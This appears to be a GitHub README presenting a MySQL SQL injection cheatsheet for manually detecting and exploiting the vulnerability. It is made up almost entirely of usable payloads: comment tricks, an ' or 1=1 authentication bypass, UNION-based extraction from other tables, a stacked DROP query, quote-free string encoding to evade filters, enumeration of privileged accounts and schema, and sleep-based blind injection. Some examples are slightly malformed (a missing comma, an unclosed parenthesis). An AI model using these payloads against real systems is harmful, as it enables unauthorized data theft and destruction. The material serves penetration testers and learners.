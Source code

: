 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>
 Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
 1. The LIMIT clause is used to specify the number of records to return.  <br>
  Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
 1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
  1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ")
1. using CONCAT function
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */ 
2. using hex value
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */ 

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>
2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>

# Time Delay
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>
Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>



  
    
